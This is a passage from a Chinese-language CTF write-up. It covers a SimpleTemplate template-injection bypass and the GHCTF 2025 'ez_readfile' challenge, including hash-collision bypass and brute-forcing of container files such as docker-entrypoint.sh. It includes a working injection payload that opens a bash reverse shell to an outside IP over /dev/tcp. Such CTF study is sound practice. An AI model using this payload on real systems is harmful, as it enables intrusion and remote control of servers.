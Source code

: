 由于if判断有一个特性：

**`if`语句在模板渲染时必定会执行条件表达式（无论条件真假）**

也就是说只要把代码写在if后面就一定能执行写入的代码

我们导入os模块

![image-20250707140720684](D:\ctf wp\201-240.assets\image-20250707140720684.png)

![image-20250707140609546](D:\ctf wp\201-240.assets\image-20250707140609546.png)

另一种解法
在SimpleTemplate模板下我们可以使⽤ % 来执⾏python代码。

这样就可以绕过 { 了，但是我们的 % 所在的那⼀⾏ % 的前面只能有空白字符，我们直接换行即可

```

% __import__('os').popen("bash -c 'bash -i >& /dev/tcp/123.56.103.169/4444  0>&1'").read()
```




## 231.[GHCTF 2025]ez_readfile

![image-20250702155515400](D:\ctf wp\201-240.assets\image-20250702155515400.png)

强比较的话只能用hash碰撞绕过![image-20250702163723798](D:\ctf wp\201-240.assets\image-20250702163723798.png)

后面就是找flag在什么文件下 爆破 ![image-20250702165618948](D:\ctf wp\201-240.assets\image-20250702165618948.png)

 实在找不到 看wp

无法直接获取到flag内容，只能尝试从其它的***\*敏感信息文件\****中获取可能有用的消息，这里推荐直接使用***\*字典爆破\****：

字典：[Ubuntu Pastebin](https://paste.ubuntu.com/p/JjJ3krY2Dq/)

`什么是 docker-entrypoint.sh` ： Docker 容器中常见的入口脚本，通常用于在容器启动时执行一些初始化任务，比如配置环境变量（检查或设置必要的环境变量（如数据库连接配置））、设置权限、启动服务等等

目标启用了容器，经常打RCE漏洞练习的朋友们都知道，可以从vulhub或者docker上下载镜像文件,其中配置文件往往使用docker-compose.yml，但是往往还会存在着docker-entrypoint.sh 或者 entrypoint.sh作为容器的启动脚本。

一般docker-compose.yml中的文件包含了web的端口、数据库镜像的下载和存放路径，而docker-entrypoint.sh  中更多的是对一些数据库的具体操作，比如设置本环境中的管理员用户密码等等。

这意味着，如果本题目的docker环境中尝试创建了flag文件的话，那么它大概率会通过docker-entrypoint.sh和docker-compose.yml两个文件进行，那么我们可以去尝试访问这两个文件。但是对于这两个文件的存放路径还有待考究，它可能存放在根目录下，可能存放在web的上级目录，也可能和下述的搜索结果一样，存放在/var/lib/docker/overlay2/容器id/diff(/usr/local/bin/)下。


![image-20250702173254699](D:\ctf wp\201-240.assets\image-20250702173254699.png)

![image-20250702172755982](D:\ctf wp\201-240.assets\image-20250702172755982.png)

但这不是预期解

正确思路：①通过自动化工具获取了目标的指纹信息 ②明确我们的需求，搜索该指纹条件下是否存在能将XXE提升为RCE的漏洞。
